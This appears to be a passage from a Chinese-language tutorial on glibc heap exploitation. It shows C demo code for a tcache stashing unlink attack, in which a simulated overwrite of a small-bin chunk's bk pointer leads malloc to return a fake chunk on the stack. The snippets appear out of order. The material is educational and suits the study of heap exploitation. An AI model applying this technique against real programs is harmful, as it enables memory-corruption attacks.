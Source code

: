 ```plain
    //now 5 tcache bins
    printf("Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");

    malloc(0x90);
    malloc(0x90);

    printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

    //change victim->bck
    /*VULNERABILITY*/
    chunk_lis[2][1] = (unsigned long)stack_var;
    /*VULNERABILITY*/

    //trigger the attack
    printf("Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");

    calloc(1,0x90);

    printf("Now our fake chunk has been put into tcache bin[0xa0] list. Its fd pointer now point to next free chunk: %p and the bck->fd has been changed into a libc addr: %p\n\n",(void*)stack_var[2],(void*)stack_var[4]);

    //malloc and return our fake chunk on stack
    target = malloc(0x90);   

    printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);

    assert(target == &stack_var[2]);
    return 0;
}
```

首先申请 9 个堆块并 free 其中 7 个

```plain
//now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }
    //put 7 chunks into tcache
    printf("Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }
    printf("As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");

    //last tcache bin
    free(chunk_lis[1]);
```
